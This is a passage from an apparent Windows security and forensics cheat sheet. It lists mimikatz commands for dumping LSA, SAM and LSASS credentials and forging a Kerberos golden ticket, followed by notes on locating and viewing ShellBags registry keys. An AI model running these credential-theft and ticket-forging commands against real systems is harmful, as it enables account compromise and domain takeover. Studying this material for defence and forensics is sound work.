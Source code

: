     4. **Dump Hashes**

        ```
        mimikatz # lsadump::lsa /patch
        ```

        - **Security Identifier of the Kerberos Ticket Granting Ticket Account**

            ```
            mimikatz # lsadump::lsa /inject /name:krbtgt
            ```

        - **All SAM Local Password Hashes**

            ```
            mimikatz # lsadump::sam
            ```

        - **Credentials from the LSASS Memory**

            ```
            mimikatz # sekurlsa::logonpasswords
            ```

    5. **Create a Kerberos Golden Ticket**

        ```
        mimikatz # kerberos::golden /user:Administrator /domain:sample.domain /sid
        :S-1-5-21-849420856-2351964222-986696166 /krbtgt:7808900312cc005cf7082a9a89eb
        dfdf /id:500
        ```

    6. **Open a New Command Prompt**

        ```
        mimikatz # misc::cmd
        ```

8. **Registry Keys**

    - **ShellBags**

        A set of registry keys that store details about a viewed folder, such as its size, position, and icon.

        1. **Location**

            **c:\Users\<username>\AppData\Local\Microsoft\Windows\UsrClass.dat**  

            If you cannot found AppData folder in Explorer, click "View" tab and check "Hidden Items".

        2. **Access to Shellbag**

            1. **Search "regedit" on search bar and open "Registry Editor"**

            2. **Go to "Computer\HKEY_CLASSES_ROOT\LocalSettings\Software\Microsoft\Windows\Shell\Bags"**

        3. **ShellBags Explorer**

            Extract ShellBags information.
